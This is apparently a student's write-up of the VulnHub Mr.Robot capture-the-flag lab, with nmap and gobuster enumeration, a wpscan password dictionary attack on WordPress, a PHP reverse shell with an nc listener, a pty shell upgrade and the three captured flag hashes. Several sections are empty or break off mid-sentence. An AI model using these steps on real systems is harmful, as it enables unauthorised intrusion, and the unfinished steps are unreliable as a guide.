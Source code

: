 # VulnHub Mr.Robot Write - Up
## Overview
- **Mr.Robot:**
- **Platform:** [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/ "Vulnhub")
- **Difficulty:**  Beginner-Intermediate
- **Date Completed:** August 17, 2025
- **Tools Used:** Kali Linux, nmap, GoBuster, WPScan nano, Python
## Objectives
- Capture all three flags
- Learn and demonstrate exploitation and escalation techniques

---

## Methodology

### 1. Information Gathering
~~~

&nbsp;sudo nmap -sS -T4 10.38.110-120 

~~~
- Identify the ports on the machine to evaluate the type of machine
 	- Port 80 (HTTP) open -> Apache web server detected
 	- Port 443 (HTTPS) open
 	- Port 22 (SSH) open
### 2. Enumeration (Flag 2)
~~~

&nbsp;gobuster dir -u http://10.38.1.111 -w/usr/share/dirbuster/wordlist/directory -list-2.3-small.txt

~~~
- Swept the machines location to find additional dir and files using GoBuster
 	- /robots.txt -> contained the extension which led to the first flag as well as a dictionary
 	- WordPress login page discovered -> potential attack vector with the dictionary list discovered in robots.txt
~~~

cat fsociety.dic | sort -u> filtered.dic

~~~
- Sorted the dictionary list to remove redundancies and order them alphabetically creating the new filtered.dic

### 3. Exploitation (Flag 2)
~~~

wpscan --url http://10.38.1.111/wp-login/php -U 'elliot' -P filtered.txt

~~~
- Ran the filtered text against the password with the username elliot
~~~

locate php-re

gedit php-reverse-shll.php

~~~
- Locate and edit the contents of a reverse-php-shell which will allow us access into the

~~~

nc -lvnp 443

~~~
- We trigger the script by navigating to a URL that does not exist
 	- Within the machine, we were able to locate the /home/robot directory -> We find two files a .raw-md5 and a .txt
 	- We crack the hash to find the password for robot
 	- Now that we have the password we can login to the Mr.Robot and read .txt
### 4. Privilege Escalation (Flag 3)
-
~~~

python -c 'import pty;pty.spawn("/bin/bash")'

su robot

~~~
- We

### 5. Enumeration (Flag 3)

### 6. Exploitation (Flag 3)
---

## Flags Captured
- Flag 1: 073403c8a58a1f80d943455fb30724b9
- Flag 2: 822c73956184f694993bede3eb39f959
- Flag 3: 04787ddef27c3dee1ee161b21670b4e4
---

## Lessons Learned
Protection against rainbow tables
- Password salting
- Login attempt limit
---

## References
https://www.vulnhub.com/entry/mr-robot-1,151/
